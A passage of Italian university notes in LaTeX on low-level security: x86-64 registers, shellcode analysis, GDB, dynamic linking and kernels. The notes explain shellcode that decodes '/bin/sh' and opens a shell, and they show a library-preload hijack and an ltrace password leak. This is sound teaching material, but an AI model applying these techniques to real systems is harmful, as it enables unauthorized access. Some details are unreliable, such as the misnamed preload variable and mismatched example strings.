    \item \textbf{Ring 2}, anch'esso generalmente poco utilizzato;
    \item \textbf{Ring 3}, utilizzato per i permessi a livello applicativo.
\end{itemize}
Alcune implementazioni possono avere ulteriori due ring:
\begin{itemize}
    \item \textbf{Ring -1}, assegnato all'hypervisor delle macchine virtuali;
    \item \textbf{Ring -2}, assegnato al bios manager.
\end{itemize}

\section{Registri General Purpose}
Il processore x86-64 ha 16 registri general purpose:
\begin{center}
    \begin{table}[]
        \centering
        \begin{tabular}{|c|c|c|c|c|c|c|c|}
            ax & bx & cx & dx & si & di \\
            sp & bp \\
            r8 & r9 & r10 & r11 & r12 & r13 & r14 & r15
        \end{tabular}
        \caption{Esempio filesystem Linux}
    \end{table}
\end{center}
Essendo stato afflitto da varie patch questi registri sono stati resi accessibili non solo in modalità 64 bit ma anche 32, 16 e 8 bit:
\begin{itemize}
    \item \textbf{full register}, 64 bit (e.g. \textit{rax});
    \item \textbf{half register}, 32 bit (e.g. \textit{eax});
    \item \textbf{$\frac{1}{4}$ register}, 16 bit (e.g. \textit{ax});
    \item \textbf{$\frac{1}{8}$ register}, 8 bit (e.g. \textit{al}).
\end{itemize}

Esistono anche alcuni registri speciali che sono automaticamente utilizzati dalla CPU, essi sono:
\begin{itemize}
    \item \textbf{rip}, puntatore all'istruzione che deve essere eseguita nel successivo passaggio;
    \item \textbf{rsp}, usata automaticamente per salvare il puntatore dello stack frame con push e pop;
    \item \textbf{rflags}, descrive lo stato dell'esecuzione corrente (e.g. lo zero indica che l'istruzione precedente ha ritornato 0);
    \item \textbf{rbp}, non usata automaticamente dalla CPU ma normalmente serve a calcolare l'offset dalla memory location;
\end{itemize}

Esistono altri registri a supporto della CPU chiamati \textbf{xmm0} a \textbf{xmm15} abilitati per operazioni \textbf{SIMD register (Single Instruction Multiple Data)}, servono ad accelerare le operazioni di crittografia o di grafica vettoriale, generalmente da 128 o 256 bit:
\begin{itemize}
    \item \textbf{AESENC xmm1,xmm2/m128}, esegue un round di AES Encryption Flow round key partendo dal secondo operando, utilizzando il dato da 128bibt (stato) dal primo operando e salva il risultato nell'operando di destinazione;
    \item \textbf{AESENCLAST xmm1, xmm2/m128}, esegue le analoghe operazioni del caso precendente ma eseguendo l'ultimo round;
    \item \textbf{AESKEYGENASSIST xmm1, xmm2/m128}, assiste l'espansione del cipher key AES, calcolando gli step fino
\end{itemize}
\begin{ex}
    Supponiamo di avere il seguente codice assembly per una macchina x86\_64:
    \begin{figure}[h!]
        \centering
        
\includegraphics[width=.4\linewidth]{res/example_x86_code.png}
        \caption{}
    \end{figure}
    \\
    Come possiamo vedere la riga di codice più significativa è: 
    \begin{lstlisting}[language={[x86masm]Assembler}]
        mov $$0xFF978CD091969DD1, %rbx;
    \end{lstlisting}
    La prima cosa che dovremmo chiederci è: cosa vuol dire quel valore?
    Possiamo notare come nella riga successiva si vada a effettuare un \textit{not bitwise} e successivamente un complemento a 2 su quel registro.
    \begin{lstlisting}[language={[x86masm]Assembler}]
        neg %rbx;
    \end{lstlisting}
    Ciò porta a salvare nel registro la seguente string: \textbf{.bin/sh}, come possiamo vedere questo codice cercherà di aprire una shell e questo ci darà la possibilità di accedere al sistema infettato.
    Una volta manipolati i vari registri un pò anche per camuffare il codice possiamo veder ecome verrà richiesta una \textit{syscall} che alzerà la richiesta al sistema operativo per eseguirla, dandoci a questo punto il pieno accesso a una shell di sistema.
\end{ex}

\begin{ex}
    Un altro esempio lo possiamo vedere con questo codice: 
    \begin{figure}[h!]
        \centering
        
\includegraphics[width=.4\linewidth]{res/example_x86_code2.png}
        \caption{}
    \end{figure}
    Come possiamo vedere, nella seguente riga verrà chiamata una shell di sistema utilizzando una chiamata di libreria (system).
    \begin{lstlisting}[language={[x86masm]Assembler}]
        callq 1030 <system@plt>
    \end{lstlisting}
\end{ex}

\subsection{Dynamic analysis}
Un altro tipo di analisi citita in precedenza è l'analisi dinamica, essa viene effettuata eseguendo il codice e analizzandolo a runtime.
Per effettuare questo tipo di analisi si utilizzano i debugger come \textit{GDB} che permette di viasualizzare e analizzare le istruzioni che sono in esecuzione.
Una tenica per mitigare questo tipo di analisi è utilizzare un cronometro in modo tale da bloccare il debugger.

\subsubsection{GDB}
Alcuni esempi di comandi di \textit{GDB} sono:
\begin{itemize}
    \item \textbf{r < <(shell command)}, esegue il programma con input da una shell script, come se fosse una pipe;
    \item \textbf{ni}, passa alla prossima istruzione;
    \item \textbf{si}, salta dentro il jump
    \item \textbf{info register}, stampa lo stato dei registri in quell'istante;
    \item \textbf{b printf}, invoca un breakpoint all'invocazione di una printf;
    \item \textbf{b *0x123456}, invoca un breakpoint all'indirizzo richiesto;
    \item \textbf{d3}, elimina il breakpoint numero 3. 
\end{itemize}
GDB, e in genere tutti i debugger su linux, per tracciare l'esecuzione di un processo invocano la systemcall \textit{ptrace}, che si occupa di tracciare il processo e recuperare i valori dei registri nello stato corrente.

Tra le possibilità di GDB vi sono anche quelle di modificare i registri e le righe di codice del processo.
\textbf{Domanda:} Cosa successe se a un processo in esecuzione su GDB gli attacco un processo privilegiato, e un esecuzione privilegiata (e.g. setuid)?
GDB si occuperà di rimuovere i privilegi prima di eseguire il codice in modalità debug ciò permette di non modificare i registri. Il debug è uno dei primi motivi di inconsistenza.

\subsection{Library}
Una libreira è un insieme di funzioni composta da simboli che che permettono di collegare altre applicazioni.
\begin{lstlisting}[language=bash]
    nm /lib64/libasan.so
\end{lstlisting}
\begin{figure}[h!]
    \centering
    
\includegraphics[width=.5\linewidth]{res/library_1.png}
    \caption{}
\end{figure}

\subsubsection{Dynamic linking}

Anche i file eseguibili possono sfruttare il linking, grazie a questa funzione la dimensione dei file diminuirà sensibilmente e si renderà molto più facile l'aggiornamento del codice.
Questo comportamento è impostato di default dal linker nei compilatori \textit{C} su linux.
\begin{figure}[h!]
    \centering
    
\includegraphics[width=.5\linewidth]{res/linking_2.png}
    \caption{}
\end{figure}
Come possiamo vedere nel secondo caso in cui le librerie non sono state importate in modo statico avremo una dimensione di molto inferiore rispetto al primo caso.
Quando il programma si trova ad eseguire il la sezione del loader (\textbf{.interp} section), si occuperà di caricare le librerie e aggiornare le referenze nel codice.
\begin{figure}[h!]
    \centering
    
\includegraphics[width=.5\linewidth]{res/linking_3.png}
    \caption{}
\end{figure}

\subsubsection{Library hijacking}
Quando dichiara una libreria: 
\begin{lstlisting}[language=C]
    puts("ciao \n");
\end{lstlisting}
essa effettuerà un chiamata all'interno della libreria:
\begin{lstlisting}[language=bash]
    1154: e8 d7 fe ff ff callq 1030 <puts@plt> # @plt: chiamata per il linking dinamico
\end{lstlisting}
\textbf{Domanda:} É possibile effettuare un hijacking alla chiamata cambiando la libreria?

La risposta è si. Questa cosa si può effettuare a tempo di caricamento senza effettuare il relinking dell'applicazione.
\begin{lstlisting}[language=bash]
    $ ./test
    ciao
    $ LD_LIBRARY_PRELOAD= ./fakelib.so ./test
    hacked
\end{lstlisting}
utilizzando questa variabile d'ambiente si potrà effettuare l'hijack della libreria utilizzata in origine modificandone il comportamento delle funzioni di libreria.
Usando questo trick è possibile tracciare l'esecuzione del programma senza utilizzare i metodi convenzionali di debugging.

Supponiamo di avere i seguente codice:
\begin{lstlisting}[language=C]
    #include <stdio.h>
    #include <string.h>

    int main (int argc, char** argv) {
        if (argc < 2) {
            return 1;
        }

        if (!strcmp("super-secret-password", argv[1])) {
            print("Access granted!\n");
        }
        return 0;
    }
\end{lstlisting}
si potrà utilizare il comando \textbf{ltrace} per seguirne l'esecuzione:
\begin{lstlisting}[language=bash]
    command:
    ltrace ./test ciao

    output:
    strcmp("super-secure-password" , "ciao")               = 16
    +++ exited (status 0) +++       
\end{lstlisting}

\textbf{Domanda:} Cosa accade se utilizzassimo \textbf{LD\_LIBRARY\_PRELOAD} su un esecuzione privilegiata (setuid o ep capabilities).

I questo caso se l'eseguibile è privilegiato non verrà fatto hijacking.

\section{Kernel}
Il kernel è il programma che costituisce il cuore centrale del sistema operativo del computer. Ha il completo controllo su tutto ciò che accade nel sistema.
Si frappone tra il sistema operativo e l'hardware facendone da intermediario.

I tipi di kernel più utilizzati sono tre:
\begin{itemize}
    \item \textbf{Monolitici}, i kernel monoliti hanno un'integrazione del codice molto stretta tra i vari moduli, ciò potrebbe portare a un eventuale propagazione di qualche bug nel caso se ne presentasse uno;
    \item \textbf{Microkernel}, l'approccio a microkernel consiste nel definire un ristretto numero di primitive che si occupano di implementare i servizi minimali, sopra il kernel principale verranno innestati dei moduli che si occuperanno di implementare le altre funzioni attraverso le primitive del microkernel;
    \item \textbf{Ibridi}, l'approccio ibrido è di fatto un microkernel con del codice "non essenziale" implementato dentro di esso.
\end{itemize}
Noi ci focalizzeremo sui kernel monolitici, come linux o BSD. Il kernel è il responsabile di:
\begin{itemize}
    \item gestire il ciclo di vita dello spazio utenti (userland), processi;
    \item gestire le risorse
    \item interagire con l'hardware
    \item assicurare la sicurezza del sistema
\end{itemize}

Con il termine \textbf{userland} o user space, ci si riferisce a tutte quelle porzioni di codice che vengono eseguite al di fuori del kernel del sistema operativo. Probabilmente la maggior parte del codice che un programmatore scrive verrà eseguito proprio nello userland, al contrario del codice di un eventuale driver per qualche dispositivo che verrà eseguito nello spazio del kernel (kernel space).
\begin{figure}[h!]
    \centering
    
\includegraphics[width=.5\linewidth]{res/userland.png}
    \caption{}
\end{figure}
Riprendendo un concetto precedente, quello dei ring di sicurezza, potremo affermare che nel ring 3 vi sarà eseguito il codice dello userland mentre nel ring 0 sarà eseguito il codice del kernel space.

\section{Processi}
Un processo è un istanza di un programma, in linux i termini processo, task e thread sono qualche volta scambiati tra di loro.
In genere essi hanno questo significato:
\begin{itemize}
    \item \textbf{Task}, il compito di un processo, cosa vuole raggiungere e come;
    \item \textbf{Thread}, un istanza del programma, la memoria è condivisa tra i relativi threads di quel programma;
    \item \textbf{Process}, un contenitore di thread che condividono la stessa memoria.
\end{itemize}
In linux un thread e un processo sono la stessa cosa, un processo è un thread con la memoria separata dagli altri processi.

Un esempio lo possiamo trovare in due browser quali firefox e chrome, in firefox ogni tab è un thread al contrario di chrome in cui ogni tab è costituito da un processo.

\subsection{Process loading}
Quando un programma viene lanciato, l'interprete (loader) viene eseguito e il contenuto del file ELF viene caricato in memoria dalla MMU (.text, .rodata ecc.). La sezione .bss verrà inizializzata a 0 (mappata con una pagina vuota).
Le librerie dinamiche saranno altrettanto caricate in memoria e condivise attraverso i processi comuni.

\subsection{Segmented memory}
La memoria in un programma è segmentata similmente al file ELF, in questo caso il sistema caricherà le differenti aree, che comprendono anche l'acclocazione delle aree per la heap e per lo stack (allocate dall' MMU), in questa fase verranno anche protette le zone di memoria dando i relativi privilegi (esecuzione, scrittura, lettura).
\begin{figure}[h!]
    \centering
